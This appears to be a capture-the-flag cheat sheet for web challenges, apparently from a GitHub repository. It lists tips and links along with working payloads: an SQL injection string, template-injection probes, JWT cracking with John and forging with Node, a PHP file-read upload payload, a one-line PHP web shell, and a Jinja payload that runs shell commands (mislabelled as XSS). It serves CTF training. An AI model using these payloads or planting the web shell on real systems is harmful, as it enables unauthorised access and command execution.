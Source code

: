 # WEB CHALLENGES

## Useful Tips And Resource

1. Use ```dirb``` to find out some directories we can view.
2. Useful SQLi -> ``` admin';--``` (works most of the time)
3. See for Template Injection by ```{{4+4}}``` if it shows 8 , then it's a SSTL.
4. [File Upload Bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass) 
5. [Web Exploits](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application)
6. [Pen Testing Handbook](https://blueteamdope.gitbook.io/penetration-testing-playbook/)
7. If you Find SSTI use ```{{config}}```
8. ZipSlip Vuln [SRC](https://snyk.io/research/zip-slip-vulnerability)
9. Command For using symlink and then upload -> 
    <img src="../Assets/sl.png">
10. Another type of zip vuln -> 
    <img src="../Assets/zipvuln.png">
11. [Deobfuscater and Unpacker](https://lelinhtinh.github.io/de4js/)

<hr>

### Foobar CTF

1. If JWT is given , try to see it via [JWT](https://jwt.io/) . Now we need a valid and secret signature to crack it. One way to do it is via John . <code> john --wordlist=/home/luc/Pobrane/rockyou.txt --format=HMAC-SHA256 jwt.txt </code> and then <code> john --show jwt.txt </code> Now you are good to go .
Code For Node ->
    ```js
    $ node 
    > const jwt = require('jsonwebtoken')
    > var token = jwt.sign({ 'user': 'admin' },'badboy', { algorithm:'HS256',noTimestamp:true});
    > console.log(token) 
    ```

2. There was a server side template injection problem . You can refer to [SSTI](https://szymanski.ninja/en/ctfwriteups/2021/foobar/lotion/) for details.

3. If you get upload vulnreability try to upload this php code 
    ```php
        <?php
        $filestring = file_get_contents('/home/user/flag/flag.txt');
        print $filestring;
        ?> 
    ```
4. Or you can try 
    ```php
    <?php system($_GET['cmd']); ?>
    ```
5. XSS Vuln -> ```{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}```